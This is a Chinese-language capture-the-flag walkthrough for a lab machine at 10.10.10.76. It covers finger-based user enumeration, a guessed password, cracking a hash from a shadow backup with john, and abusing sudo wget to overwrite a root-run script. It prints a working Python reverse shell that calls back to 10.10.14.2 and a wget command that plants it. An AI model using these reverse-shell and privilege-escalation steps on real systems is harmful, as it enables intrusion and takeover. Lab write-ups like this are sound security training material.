

#### nmap

```bash
sudo nmap -r -p- -vv -sV 10.10.10.76
```


79端口 `finger`



<https://baike.baidu.com/item/finger%E6%9C%8D%E5%8A%A1/10976284?fr=aladdin>

公开的漏洞信息中能够找到`finger`漏洞能够枚举ssh的用户名，因为又扫到了`22022`是`ssh`服务，


找到一个枚举脚本

<https://github.com/pentestmonkey/finger-user-enum>

```bash
./finger-user-enum.pl -m 50 -U /usr/share/dnsrecon/subdomains-top1mil-20000.txt -t 10.10.10.76|less -S


```

这里注意到有两个用户，sunny和sammy记录了登录的IP地址，


经过尝试发现密码是题目名字，老套路了

`sunny/sunday`


提权

`/root/troll` 这个脚本写死了


发现备份文件 `/backup/shadow.backup`


使用john破解sammy密码，保存到文件`sammy.txt`

```bash
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB
```

执行

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt sammy.txt
```

得到`sammy`密码`cooldude!`


执行`sudo -l` 发现`sunny`免密执行`/root/troll`，`sammy`免密执行`root`权限的`/usr/bin/wget`，

通过`wget`覆盖`/root/troll` 即可获得root shell


shell

```python
#!/usr/bin/python

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",2333))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

sammy

```bash
sudo wget -O /root/troll http://10.10.14.2/shell.py
```


sunny

```bash
#这里要执行快一点，有定时任务会快速覆盖这个文件

sudo /root/troll
```

获得shell


